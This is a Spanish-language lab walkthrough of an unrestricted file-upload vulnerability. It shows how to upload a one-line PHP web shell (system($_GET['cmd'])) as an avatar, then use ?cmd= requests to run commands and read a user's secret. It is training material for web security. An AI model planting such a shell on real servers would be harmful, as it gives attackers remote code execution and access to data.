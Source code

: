 En esta clase trabajamos con una funcionalidad vulnerable de subida de imágenes que no realiza ninguna validación sobre el tipo de archivo recibido. Aprovechamos esta debilidad para subir una shell web en PHP, simulando una imagen, y posteriormente accedemos a ella desde el navegador para ejecutar código en el servidor.

Esta técnica nos permite leer el contenido de archivos sensibles, en este caso extrayendo el secreto del usuario Carlos. Aprenderás a identificar el punto de entrada, crear el payload y validar que se ejecuta correctamente desde el navegador o Burp Suite.

Solucion
La web:
![Pasted_image_20250830195408.png](Imagenes/Pasted_image_20250830195408.png)
Nos logeamos y vemos que podemos subir un avatar
![Pasted_image_20250830195448.png](Imagenes/Pasted_image_20250830195448.png)
y bueno podemos crear un payload sencillo para ver si nos permite tener manejo del servidor
cmd.php
(<?php
    system($_GET['cmd']); 
?>)
![Pasted_image_20250830200105.png](Imagenes/Pasted_image_20250830200105.png)
lo cargamos
![Pasted_image_20250830200129.png](Imagenes/Pasted_image_20250830200129.png)
nos sale esto
![Pasted_image_20250830200204.png](Imagenes/Pasted_image_20250830200204.png)
si nosotros le picamos y inspeccionamos la imagen nos dara la ruta donde se almacena
![Pasted_image_20250830200307.png](Imagenes/Pasted_image_20250830200307.png)
si nos vamos a esa direccion no vamos a ver nada
![Pasted_image_20250830200421.png](Imagenes/Pasted_image_20250830200421.png)
tal que si ahora le concatenamos ?cmd=whoami
![Pasted_image_20250830200503.png](Imagenes/Pasted_image_20250830200503.png)
y ya solo ponemos la ruta que nos piden
![Pasted_image_20250830200749.png](Imagenes/Pasted_image_20250830200749.png)
ya solo proporcionamo el codigo en la pagina
![Pasted_image_20250830200919.png](Imagenes/Pasted_image_20250830200919.png)
